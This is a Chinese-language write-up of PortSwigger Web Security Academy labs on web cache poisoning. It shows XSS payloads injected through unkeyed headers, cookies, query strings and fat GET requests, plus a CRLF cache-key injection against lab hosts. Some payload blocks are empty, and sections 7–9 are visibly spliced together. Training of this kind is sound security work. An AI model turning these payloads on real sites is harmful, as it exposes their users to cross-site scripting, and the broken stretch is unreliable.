








# Web cache poisoning

[TOC]

## 1. Web cache poisoning with an unkeyed header

先尝试在各个地方添加`X-Forwarded-Host: `

```
X-Forwarded-Host: ac281ffe1fa429b780e510c901130055.web-security-academy.net
```

然后发现在`/`页面有改变。

```
<script type="text/javascript" src="//ac281ffe1fa429b780e510c901130055.web-security-academy.net/resources/js/tracking.js">
```

然后在exploit里面改一下就好了。



去看了一下官方解析，想看看缓存是怎么搞出来的。然后原来发现，返回的请求头里面有这个

```
X-Cache: hit
X-Cache: miss
```

`hit`表示击中缓存，也就是说是用的缓存来给的你。

`miss`则表示没有击中缓存，会向服务器发起请求。

## 2. Web cache poisoning with an unkeyed cookie

这个题是因为缓存不识别cookie。

在访问了`/`之后，发现被设置了一个cookie：

```
fehost=prod-cache-01
```

而访问product的时候，这个会被放在data里面。

```html
<script>
    data = {
    "host":"ac911f631e2f222e802b6e1d005e00b1.web-security-academy.net",
    "path":"/product",
    "frontend":"prod-cache-01"
    }
</script>
```

payload：

```
fehost="}</script><script>alert(1)</script>
```

我自己这边是可以的，但是刷了很久也不让我过。

然后最后才发现，受害者只访问`/`，而我一直在product里面重放请求。

回到`/`李米娜就给过了。

## 3. Web cache poisoning with multiple headers

```
X-Forwarded-Host: example.com
X-Forwarded-Scheme: http
```

这个网站不支持`http`，所以将`http`重定向到`https`，但是重定向用到的网页又是`X-Forwarded-Host:`里面的`host`。



```
X-Forwarded-Host: ac321f651e5f976c801b0ebe013b0046.web-security-academy.net/exploit
X-Forwarded-Scheme: http
```

虽然上面这样可以重定向到exploit里面，但是不能执行script。

尝试将js缓存污染。

换一种方式：





这样就可以了。

## 4. Targeted web cache poisoning using an unknown header

在GET请求`/`的时候，加入`X-Host`头可以更改tracking.js的域。

改成exploit之后自己访问确实击中了缓存，但是没有弹窗。有点奇怪。因为在返回的history里面看头，确实是击中了缓存，而且路径也变了。好吧，exploit里面的修改没有保存。

这时候发现responce里面有个Vary头，是`Vary: User-Agent`说明会对相同的agent才会击中缓存。

也就是说我们需要得到受害者的agent。然后在Comment里面允许html。

```html

```

那直接就让用户访问我们的exploit，获得他们的agent。

得到了受害者的agent。

```
User-Agent: Chrome/613188
```

然后替换agent，重复Get请求`/`就好了。

## 5. Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

* 还是在`/`里面添加`X-Forwarded-Host: `可以更改data.host的值。

* 然后发现data.host被放到了另一个函数里面。

    ```html
    <script>
        initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
    </script>
    ```

* 在js文件里面找到了这个函数

    ```js
    function initGeoLocate(jsonUrl)
    {
        fetch(jsonUrl)
            .then(r => r.json())
            .then(j => {
                let geoLocateContent = document.getElementById('shipping-info');
    
                let img = document.createElement("img");
                img.setAttribute("src", "/resources/images/localShipping.svg");
                geoLocateContent.appendChild(img)
    
                let div = document.createElement("div");
                div.innerHTML = 'Free shipping to ' + j.country;
                geoLocateContent.appendChild(div)
            });
    }
    ```

* 然后fetch的请求是`GET /resources/json/geolocate.json`，返回了:

    ```json
    {
        "country": "United Kingdom"
    }
    ```

这个时候发现可以将exploit的body改成一个json，然后将data.host指向exploit。

下面是exploit的内容。



虽然改了之后好像确实可以指向exploit，并且可以弹出弹窗。

但是可以发现返回的responce里面指明了这个并没有缓存。

```
Cache-Control: no-cache
```

而且fetch被同源策略给拦截了。

看了一下官方解析，同源策略可以通过加`Access-Control-Allow-Origin: *`来避免。

是添加在exploit的head里面。

然后就正常的操作就好了。

## 6. Combining web cache poisoning vulnerabilities

* 找到点`/`和`/?localized=1`

```
X-Forwarded-Host: ace21f081f1f78dd800b13ac01e60049.web-security-academy.net
```

* 调到中文，看看哪些地方可以变

    发现`"View details": "查看詳情"`的查看详情会出现在查看product的链接那里。

* 构造payload

    

* 试了半天发现不行，原因是当语言是en的时候，根本不会用view details的值。

* 重新构造payload

    

* 自己尝试的时候发现还需要更改语言才行，因为默认是en。而且改变语言是要访问`/setlang/cn?`，然后会跳转到`/?localized=1`。
* 所以我们可以在访问home页面的时候，设法自动跳转到`/setlang/cn?`，然后会再次跳转到被污染了缓存的`/?localized=1`
* 去看了一下官方解析，自动跳转用的是`X-Original-URL`头。这个的原理是，将访问的路径转换为这个头的值，也就是访问home其实后端处理成了访问`/setlang/cn?`。

```
X-Original-URL: /setlang/cn?
```

* 但是这个请求有Set-Cookie，是无法缓存的。改成下面这样之后，请求就变成了一个302跳转，这样就可以缓存了。

```
X-Original-URL: /setlang\cn?
```

所以最终：

1. 先污染缓存`/?localized=1`，留到后面备用。
2. 污染缓存`/`，用加了`X-Original-URL: /setlang/cn?`的去访问。

## 7. Web cache poisoning via an unkeyed query string

经过尝试，发现`GET /post?postId=5`中的`5`并没有记录在缓存Key里面。

并且这个东西会被记录到html里面。如`/post?postId=5&aaa`

```
<link rel="canonical" href='//ac4b1f7b1ebfbd8980d1da7a00ca00f3.web-security-academy.net/post?postId=1&aaa'/>
```

对post页面的污染：

```
/post?postId=1&aaa'/> UTM parameters like `utm_content` are good candidates to check during testing.

所以payload:

```
/?utm_content=aaa'/> 我自己尝试的时候，发现尽管有Set-Cookie，但还是缓存了。

这里缓存的Key是第一个参数（UTM不入缓存Key），但是在服务器后端处理的时候，`;`作为分隔符，导致callback参数被覆盖，变成了alert。

## 10. Web cache poisoning via a fat GET request

```http
GET /?param=innocent HTTP/1.1

param=bad-stuff-here
```

这个缓存是用的上面的参数，但是后端用的是下面的参数，麻了。

> X-HTTP-Method-Override: POST 可以构造伪post请求。

payload:

```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1
Host: acbe1f471f4abda08056011400b000a6.web-security-academy.net
Content-Length: 14
...

callback=alert
```

## 11. URL normalization

> `GET /example?param="><test>`
> `GET /example?param=%22%3e%3ctest%3e`
>
> 当缓存对这些进行规范化的时候，这两个会生成相同的缓存Key，导致后面那种无害的url会变成（缓存）上面那种有害的url。

找了半天xss没找到，然后看了一下官方的payload，居然在404里面。

payload：

```
GET /aaa</p><script>alert(1)</script><p> HTTP/1.1
```

```
https://acc71f2b1e49e5da8079061e00ae0006.web-security-academy.net/aaa%3C/p%3E%3Cscript%3Ealert(1)%3C/script%3E%3Cp%3E
```

## 12. Cache key injection

用远古的用户名密码`wiener:peter`能进去。但是进去了没什么用。

可以看到返回的头里面有：`Vary: Origin`

```
Pragma: x-get-cache-key
```

在cors=1的时候，可以通过Origin来获得`Access-Control-Allow-Origin: 'aaaa'`

```http
GET /js/localize.js?lang=en&cors=1 HTTP/1.1
Host: ac181f461e23e5bf80510bf4001b009c.web-security-academy.net
Cookie: session=01HEhJOxTUyAxpnLVEzkL529PKsBWpAk
Origin: 'aaaa'
```

通过`Pragma: x-get-cache-key`可以看到生成缓存Key的是：

`X-Cache-Key: /js/localize.js?lang=en&cors=1$$Origin='aaaa'`

然后发现有两个login的请求路径。

1. `/login?lang=en`，302跳转到第二个login
2. `/login/?lang=en`，不会缓存

而这里都是先访问第一个路径，然后再访问第二个路径。所以可以用第一个路径进行污染。

而在缓存中`/login?lang=en?utm_content=aaa`、`/login?lang=en&utm_content=aaa`和`/login?lang=en`的缓存Key都相同。

并且在第二个login中，lang的值会改变`localize.js`的url。

`<script src='/js/localize.js?lang=en?utm_content=aaa&cors=0'>`

但是我没找到哪里可以注入XSS。

看了一下官方解析，用的是CRLF漏洞。麻了。

利用`/js/localize.js`里面的CRLF漏洞，配合`cors=1`和`Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)`

将返回的js变成`alert(1)`。

那构造payload:

```http
GET /js/localize.js?lang=en?utm_content=aaa&cors=1 HTTP/1.1
Origin: aaa%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$
```

```http
GET /login?lang=en?utm_content=aaa%26cors=1$$Origin=aaa%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)%23 HTTP/1.1
```

这个后面的`$`需要不断地查看缓存Key然后调整。

```
Pragma: x-get-cache-key
```

简单解释一下payload的逻辑：

1. 因为访问localize.js的那个路径会根据请求login的时候的lang的值改变，所以lang的值很重要
2. 而请求login的时候，`?`会被缓存当成分隔符，并且`utm_content`的值不计入缓存Key，所以`/login?lang=en?utm_content=xxxx`和`/login?lang=en`的Key是一样的，并且在解释http参数的值的时候，`/login?lang=en?utm_content=xxxx`lang的值是`en?utm_content=xxx`(这里`?`并不会作为分隔符)，所以达到了传递参数的作用。
3. `%23`是`#`，`#`后面的不计入缓存Key，而且在http请求里面，是锚，不会当成参数。
4. 上面解释了，第一个payload用CRLF构造了一个alert的返回，至于后面为什么要有`$$`：因为请求login之后（第二个payload），再次请求`localize.js`的时候，用查看Key的那个头去看的，有`$$`。
    猜测2个是咋来的：要`$$`作为Key的结尾。
5. 第一个payload的缓存Key和请求`/js/localize.js?lang=en?utm_content=aaa&cors=1$$Origin=aaa%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)`的Key是一样的。因为Origin要计入Key，但是分隔符是`$$`，这里手动加分隔符来达到效果。
6. 这里给出第一个payload的缓存Key:

```
/js/localize.js?lang=en?cors=1$$Origin=aaa%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$
```

7. 每一次请求的url会进行一个url解码。所以第一个payload需要一次编码，第二个需要两次编码。

## 13. Internal cache poisoning

注入用的头是：（注入`/`目录）

```
X-Forwarded-Host: acb91f681f9b808080262898016a0057.web-security-academy.net
```

其中内部缓存的只有`geolocate.js`。

因为前面两个js文件都随着注入的头有与没有一直在改变。

只有`geolocate.js`，当注入之后（多来几次），删除注入用的头依旧还有。

exploit的内容：



过了（污染内部缓存的时候要重复很久）。

